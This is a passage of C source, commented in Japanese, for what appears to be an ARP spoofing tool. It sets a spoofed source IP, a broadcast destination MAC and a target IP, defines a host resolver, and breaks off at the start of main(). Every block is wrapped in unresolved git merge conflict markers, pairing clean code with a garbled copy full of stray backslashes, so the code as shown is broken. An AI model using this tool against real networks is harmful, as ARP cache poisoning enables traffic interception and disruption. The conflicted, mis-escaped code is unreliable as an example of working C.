  * ARPスプーフィングをおこなうと、ARPキャッシュにこのIPアドレスが登録されます
 */
<<<<<<< HEAD
char *src_ip = "192.168.2.2";
=======
char *src_ip \= "192.168.2.2";
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

/*
 * 送信先MACアドレス
 * 送信先に合わせて修正してください
 * ブロードキャストでARPスプーフィングを実行するとブロードキャストドメイン全体に影響します
 */
<<<<<<< HEAD
char *dst_mac = "ff:ff:ff:ff:ff:ff";
=======
char *dst_mac \= "ff:ff:ff:ff:ff:ff";
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
/*
 * 送信先IPアドレス
 * ARPリクエストの場合は問い合わせるIPアドレスになります
 */
<<<<<<< HEAD
char *dst_ip = "192.168.2.1";
=======
char *dst_ip \= "192.168.2.1";
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

int
resolve(const char *host, struct in_addr *addr)
{
  struct hostent *hoste;
    
  if (inet_aton(host, addr))
    return 0;
<<<<<<< HEAD
  if ((hoste = gethostbyname(host))) {
    memcpy(addr, hoste->h_addr_list[0], sizeof(struct in_addr));
    return 1;
  }
  return -1;
=======
  if ((hoste \= gethostbyname(host))) {
    memcpy(addr, hoste\->h_addr_list[0], sizeof(struct in_addr));
    return 1;
  }
  return \-1;
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
}

int
main(int argc, char *argv[])
{
  int sd;
  int res;
  struct in_addr src_addr, dst_addr;
  char arpbuf[sizeof(struct ether_header) + sizeof(struct ether_arp)];
  struct ether_header *eth;
  struct ether_arp *arp;
  struct sockaddr to;
<<<<<<< HEAD
  socklen_t tolen = sizeof(struct sockaddr);
=======
  socklen_t tolen \= sizeof(struct sockaddr);
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
